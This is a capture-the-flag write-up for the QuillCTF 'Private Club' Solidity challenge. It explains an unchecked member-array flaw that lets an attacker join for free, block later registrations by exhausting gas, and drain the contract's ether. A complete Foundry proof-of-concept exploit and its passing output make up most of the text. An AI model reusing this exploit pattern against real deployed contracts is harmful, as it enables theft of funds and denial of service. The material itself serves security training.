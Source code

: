 # QuillCTF : Private Club

## Objective of CTF
```
Become a member of a private club.
Block future registrations.
Withdraw all Ether from the privateClub contract.
```

We have to become a member of the private block and block future registration by using up the gas, also we have to steal ether to buy admin role and finally withdraw all ether from the contract as admin

```solidity
    function becomeMember(
        address[] calldata _members
    ) external payable nonReentrant {
        require(block.timestamp < registerEndDate, "registration closed");
        require(_members.length == membersCount, "wrong members length");
        require(msg.value == membersCount * 1 ether, "need more ethers");
        for (uint i = 0; i < _members.length; i++) {
            _members[i].call{value: 1 ether}("");
        }
        membersCount += 1;
        members[msg.sender] = true;
        members_.push(msg.sender);
    }
```

To become a member, we have to pay 1 ether to all existing member, and the contract will send 1 ether to all existing member in a for loop

However it only checks that the array parameter's length equals to the membersCount, but it doesn't check that the members in the array parameter are actually members of the private club, so we can just set our own address as the array parameter and it will just sending the ether back to us, and we will not lose any ether becoming a member

So to do a DoS, we just need to repeat that many times, until the membersCount is large enough that the for loop will use up all gas, however in the foundry test, we don't actually need to use up the block gas limit (30000000)

```solidity
        // check - user4 can not become member - blockGasLimit
        vm.startPrank(user4);
        address[] memory mForUser4 = new address[](club.membersCount());
        for (uint i = 0; i < club.membersCount(); i++) {
            mForUser4[i] = club.members_(i);
        }
        uint etherAmount = mForUser4.length * 1 ether;
        uint gasleftbeforeTxStart = gasleft();
        club.becomeMember{value: etherAmount}(mForUser4);
        uint gasleftAfterTxStart = gasleft();

        assertGt(gasleftbeforeTxStart - gasleftAfterTxStart, blockGasLimit);
        vm.stopPrank();
```

It will just check if the gas used is greater than 120000, so we just need to become member for a few times that it will use more than 120000 gas

Also, when user4 is becoming member, it will send ether to us, as we became member for a few times

Finally, we can just buy the admin role with 10 ether and withdraw all ether from the contract


## Proof of concept

### Foundry test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/PrivateClub.sol";

contract Hack is Test {
    PrivateClub club;

    address clubAdmin = makeAddr("clubAdmin");
    address adminFriend = makeAddr("adminFriend");
    address user2 = makeAddr("user2");
    address user3 = makeAddr("user3");
    address user4 = makeAddr("user4");
    address hacker = makeAddr("hacker");
    uint blockGasLimit = 120000;

    function setUp() public {
        vm.deal(clubAdmin, 100 ether);
        vm.deal(hacker, 10 ether);
        vm.deal(user2, 10 ether);
        vm.deal(user3, 10 ether);
        vm.deal(user4, 10 ether);
        vm.startPrank(clubAdmin);
        club = new PrivateClub();
        club.setRegisterEndDate(block.timestamp + 5 days);
        club.addMemberByAdmin(adminFriend);
        address(club).call{value: 100 ether}("");
        vm.stopPrank();
        vm.startPrank(user2);
        address[] memory mForUser2 = new address[](1);
        mForUser2[0] = adminFriend;
        club.becomeMember{value: 1 ether}(mForUser2);
        vm.stopPrank();
        vm.startPrank(user3);
        address[] memory mForUser3 = new address[](2);
        mForUser3[0] = adminFriend;
        mForUser3[1] = user2;
        club.becomeMember{value: 2 ether}(mForUser3);
        vm.stopPrank();
    }

    function test_attack() public {
        vm.startPrank(hacker);
        // task1: become member of the club and
        // block future registrations (reason: out of gas - block gas limit)
        // solution:
        address[] memory arr = new address[](club.membersCount());
        for (uint i = 0; i < club.membersCount(); i++) {
            arr[i] = hacker;
        }
        club.becomeMember{value: arr.length * 1 ether}(arr);

        address[] memory arr1 = new address[](club.membersCount());
        for (uint i = 0; i < club.membersCount(); i++) {
            arr1[i] = hacker;
        }
        club.becomeMember{value: arr1.length * 1 ether}(arr1);

        address[] memory arr2 = new address[](club.membersCount());
        for (uint i = 0; i < club.membersCount(); i++) {
            arr2[i] = hacker;
        }
        club.becomeMember{value: arr2.length * 1 ether}(arr2);

        address[] memory arr3 = new address[](club.membersCount());
        for (uint i = 0; i < club.membersCount(); i++) {
            arr3[i] = hacker;
        }
        club.becomeMember{value: arr3.length * 1 ether}(arr3);

        address[] memory arr4 = new address[](club.membersCount());
        for (uint i = 0; i < club.membersCount(); i++) {
            arr4[i] = hacker;
        }
        club.becomeMember{value: arr4.length * 1 ether}(arr4);
        
                       vm.stopPrank();
        // check - hacker is member
        assertTrue(club.members(hacker));


        // check - user4 can not become member - blockGasLimit
        vm.startPrank(user4);
        address[] memory mForUser4 = new address[](club.membersCount());
        for (uint i = 0; i < club.membersCount(); i++) {
            mForUser4[i] = club.members_(i);
        }
        uint etherAmount = mForUser4.length * 1 ether;
        uint gasleftbeforeTxStart = gasleft();
        club.becomeMember{value: etherAmount}(mForUser4);
        uint gasleftAfterTxStart = gasleft();

        assertGt(gasleftbeforeTxStart - gasleftAfterTxStart, blockGasLimit);
        vm.stopPrank();


        vm.startPrank(hacker);
        // task2: buy admin role and withdraw all ether from the club
        // solution:
        club.buyAdminRole{value: 10 ether}(hacker);
        club.adminWithdraw(hacker, address(club).balance);


        // check - hacker is owner of club
        assertEq(club.owner(), hacker);
        assertGt(hacker.balance, 110000000000000000000 - 1);
    }
}
```

### Foundry test output

```
# forge test --match-path test/PrivateClub.t.sol -vv
[⠊] Compiling...
No files changed, compilation skipped

Running 1 test for test/PrivateClub.t.sol:Hack
[PASS] test_attack() (gas: 608601)
Test result: ok. 1 passed; 0 failed; finished in 3.82ms
```